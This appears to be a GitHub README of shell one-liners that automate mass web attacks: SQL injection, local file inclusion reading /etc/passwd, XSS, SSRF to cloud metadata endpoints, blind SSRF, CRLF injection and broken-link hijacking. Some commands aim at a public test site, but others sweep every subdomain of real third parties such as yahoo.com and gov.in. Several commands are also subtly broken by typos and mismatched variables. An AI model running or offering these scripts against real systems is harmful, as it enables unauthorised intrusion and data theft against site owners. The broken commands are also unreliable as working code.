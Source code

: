 # WEBAPPLICATION-ATTACKS-SCRIPT
AUTOMATE WEB APPLICATION ATTACKS WITH SCRIPTS

**Error based sqli**

Target: http://TARGET.com/artists.php?artist=1

**Command:**
curl -sk "http://testphp.vulnweb.com/artists.php?artist=1" | grep -q "WHAT KIND for error for sql injection"

**Automation:**
gau -subs testphp.vulnweb.com | gf sqli | httpx | qsreplace "1'" | xargs -I{} sh -c 'curl -sk "{}" 2>&1 | grep -q "mysql_fetch_array" && echo " $(tput setaf 1)SQLI VULNERABLE $(tput setaf 3) %"'
gau -subs testphp.vulnweb.com | grep "=" | httpx -silent | qsreplace "1'" | xargs -I{} sh -c 'curl -sk "{}" 2>&1 | grep -q "mysql_fetch_array" && echo " $(tput setaf 1)SQLI VULNERABLE $(tput setaf 3) {}"' 

**FULL automation:**
for sqli $(cat sqliyaload.txt) ;do for url in $(gau -subs targets.txt | grep "=" | gf sqli | httpx | qsrepalce "$sqli") ;do echo "$url" | xargs -I{} sh -c 'curl -sk "{}" 2>&1 | grep -q "mysql_fetch_array" && echo "Error based SQLI {}"' ;done 


**Time based:**
payload used: ' or sleep(5)#

Normal testing:
time curl -s -I "http://testphp.vulnweb.com/artists.php?artist=1"
time curl -s -I "http://testphp.vulnweb.com/artists.php?artist=1 or sleep(10)#" 
 
 
**Automation:**
for sqli in $(cat sqlitime.txt) ;do for url in $(gau -subs yahoo.com) ;do  echo "$url" | qsreplace "$sqli"| parallel -j 10 'time curl -s -I "%"' ;print "timebase sqli without payload" ;echo "$url" | parallel -j 10 'time curl -s -I "%"' ;done ;done


**LFI:**

cat /payloads/pathtravers.txt | parallel -j 6 'curl -sk "http://testphp.vulnweb.com/showimage.php?file={}" 2>&1 | grep -q "root:x" && echo "VULN! LFI {}"'

for lfi in $(cat /payloads/pathtravers.txt ); do for  url  in $(gau -subs yahoo.com | gf lfi | qsreplace "$lfi"); do echo "urls" | parallel  -j 10 'curl -s "{}" 2>&1 | grep -q "root:x" && echo "LFI VULN! {}"' ; done ; done


**XSS:**

grep "?" | sort -u |  grep "=" | qsreplace "<img src=x onerror=alert(1)>" | xargs -I % sh -c 'curl -sk "%"   2>&1 | grep -q "alert(1)" --color && echo " $(tput setaf 1)XSS VULNERABLE $(tput setaf 3) %"'  --> automation

cat testparam.txt | parallel -j 5  echo "https://xss-game.appspot.com/level1/frame?{}" | qsreplace "<img src=x onerror=alert(1)>" | xargs -I % sh -c 'curl -sk "%"   2>&1 | grep -q "alert(1)" --color && echo " $(tput setaf 2)XSS VUL $(tput setaf 1 setab 7) %"'

for xss in $(cat /payloads/xss.txt ); do for  url  in $(gau -subs yahoo.com | gf lfi | qsreplace "$xss"); do echo "urls" | parallel  -j 10 'curl -s "{}" 2>&1 | grep -q "aler(1)" && echo "LFI VULN! {}"' ; done ; done

**SSRF:**
gau -subs testphp.vulnweb.com | grep "=" | qsreplace "http://169.254.169.254/latest/meta-data/hostname" | xargs -I% sh -c 'curl -sk "%" 2>&1 | grep "compute.internal" && echo " ssrf aws metadata %"'

**BLIND ssrf:**

gau -subs testphp.vulnweb.com | gf ssrf | qsreplace "http://burpcollaborator.net" | httpx -silent -proxy http://127.0.0.1:8080

subfinder -d yahoo.com -silent | httpx -silent -proxy http://127.0.0.1:8080 -H "Referer: http://burpcollaborator.net"




Command:

curl -sk "http://testphp.vulnweb.com/showimage.php?file=http://burpcollab.net" |httpx

**Automation:**
gau -subs testphp.vulnweb.com | grep "=" | httpx -silent | qsreplace "http://burpcollab.net" | xargs -I{} sh -c 'curl -sk "{}"

**FULL automation:**
for burpcoll $(cat burppayaload.txt) ;do for url in $(gau -subs targets.txt | grep "=" | gf ssrf | httpx | qsrepalce "$burpcoll") ;do echo "$url" | httpx -silent  ;done 

gau -subs gov.in | grep "=" | gf ssrf | httpx -silent | qsreplace "http://burpcollab.net" | parallel -j 30 curl -sk "{}"

**Blind SSRF by header:**
Target:
testphp.vulnweb.com

Command:
**FUll Automation:**
subfinder -d testphp.vulnweb.com -silent | httpx -H "Referer: http://burpcollab.net" 

**SSRF to access metadata**
Automation;
gau -subs testphp.vulnweb.com | grep "=" | qsreplace "http://169.254.169.254/latest/meta-data/hostname" | xargs -I% sh -c 'curl -sk "%" 2>&1 | grep "compute.internal" && echo " ssrf aws metadata %"'

**CRLF**
for crlf in $(cat crlfpayload.txt); do for url in $(gautest.com | grep "=" | qsreplace "$crlf"); do echo $url| xargs -I@ sh -c 'curl -sk -I "@" 2>&1 | grep -q "Set-Cookie:%20test=test" && echo "CRLF VUL @"' ;done ;done

**AUTOMATE BROKEN LINK HIJACKING****

subfinder -dL -silent | httpx -silent | parllel -j 10 blc {} | grep "broken"
